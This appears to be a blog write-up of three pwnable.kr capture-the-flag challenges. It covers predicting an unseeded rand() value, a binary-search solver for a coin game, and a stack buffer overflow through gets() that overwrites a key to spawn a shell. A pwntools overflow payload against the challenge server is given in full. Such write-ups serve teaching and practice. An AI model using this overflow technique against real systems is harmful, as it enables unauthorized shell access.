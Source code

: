 ```yaml
---
layout: post
title:  "pwnable.kr - random, coin1 & bof"
date:   2018-01-28 01:00:00 +0100
categories: [pwnablekr]
description: ""
image:
  feature: pwnablekrrandomcoinbof.jpg
  credit:
  creditlink:
---
```


This post describes three Toddler's Bottle exploits on [pwnable.kr](http://pwnable.kr/).


Random
------------
This is a simple binary exploitation challenge.  The code for the binary is included once the user has SSH'd in:
```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

Looking at this, there's one obvious problem with the implementation.  The `rand()` function is called without `srand` being used to seed the PRNG.  There's no true random number generator in modern computer science, what's used instead is a pseudo-random number generator.

This seeds a generator with an initial value, and then a sequence of numbers is generated from that seed value, which takes the appearance of true random number generation.  The issue is that for the same seed value, the same sequence will be generated.

Correct implementations will use `srand` function with another number, typicall time, to seed the generator.  To get the random number we just need to compile a call to rand and see the output which is `1804289383`.

To get the value we need to exploit the binary, we just xor that value with 0xdeadbeef, `0xdeadbeef^1804289383=3039230856` and we have our key.

```bash
random@ubuntu:~$ ./random
3039230856
Good!
Mommy, I thought libc random is unpredictable...
```


Coin1
------

We'll netcat to port 9007 and we're greeted with the following message:
```
	---------------------------------------------------
	-              Shall we play a game?              -
	---------------------------------------------------

	You have given some gold coins in your hand
	however, there is one counterfeit coin among them
	counterfeit coin looks exactly same as real coin
	however, its weight is different from real one
	real coin weighs 10, counterfeit coin weighes 9
	help me to find the counterfeit coin with a scale
	if you find 100 counterfeit coins, you will get reward :)
	FYI, you have 30 seconds.

	- How to play -
	1. you get a number of coins (N) and number of chances (C)
	2. then you specify a set of index numbers of coins to be weighed
	3. you get the weight information
	4. 2~3 repeats C time, then you give the answer

	- Example -
	[Server] N=4 C=2 	# find counterfeit among 4 coins with 2 trial
	[Client] 0 1 		# weigh first and second coin
	[Server] 20			# scale result : 20
	[Client] 3			# weigh fourth coin
	[Server] 10			# scale result : 10
	[Client] 2 			# counterfeit coin is third!
	[Server] Correct!

	- Ready? starting in 3 sec... -
```
So we are given a number of coins and we have to find the counterfeit. We can query for the weight of a set of coins and we're also given a maximum number of tries we can make before the server will kick us off.  The only indicator of a counterfeit coin is that the weight will be slightly lower, therefore if the weight of a set is not divisible by 10, then it contains a counterfeit coin.

So this is a pretty classic binary search problem, and whether you know the algorithm or not, it's the intuitive method of solving a problem like this.  Let's take an example of 10 coins in the below diagram:

![](/assets/img/pwnable.kr/coin1.png)

We'll break it down!  Firstly, we'll split our set into two sets of almost equal numbers of coins and we test one of them for the presence of a counterfeit coin.  Set 1-5 is tested and is found to contain the counterfeit.  We split this set into another two sets.

We now test another set, 3-5, which is found to not contain the counterfeit.  We can thus surmise that set 1-2 will contain the counterfeit.  We then split this into the last two sets, 1 and 2.

We now test set 1 which is found to be the counterfeit.  

All that remains is to create some code that will replicate this binary search.  Below I have created a very basic and possible incorrect binary search acting against the remote server's guessing game, doing 100 guesses.

```
from pwn import *

def generate_guesses(ii, ifin):
    cutoff = ifin - (ifin-ii)/2
    nums = range(ii, cutoff)
    return [str(x) for x in nums]

def run_guesser(remote_pwn_sock, lower, upper):
    x = ' '.join(generate_guesses(lower, upper))
    remote_pwn_sock.send(x+'\n')
    weight = r.recv()
    if 'Correct!' in weight:
        print weight
        return 1
    if int(weight) % 10 == 0:
        run_guesser(remote_pwn_sock, upper-(upper-lower)/2, upper)
    else:
        run_guesser(remote_pwn_sock, lower, upper-(upper-lower)/2)


r = remote('localhost', 9007)

r.recvuntil('3 sec... -')
r.recv()


for _ in range(100):
    n, c = [int(x.split('=')[1]) for x in r.recv().strip().split(' ')]
    run_guesser(r, 0, n)
r.interactive()
```

bof
-----
For this we're given a piece of code, a binary and a remote port we can connect to.
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Looking at the code, this is fairly self-explanatory.  Since there's no controls on the amount we can send to the program, if we send enough we'll overwrite the `key` variable stored on the stack.  If we overwrite it with `0xcafebabe` we'll be returned a shell.

The sensible thing here would have been to download the binary and calculate the offset of the `key` variable in memory from the `overflowme` buffer.  Of course, I'm not sensible and this didn't seem worth the effort.

In this case I just tested a simple skeleton script and slowly adjusted the length of my buffer by 4 bytes each time.  At a length of 56 bytes I was returned a root shell:

```
from pwn import *

p = remote('pwnable.kr',9000)
p.send('A'*52+p32(0xcafebabe)+'\n')
print p.interactive()
```
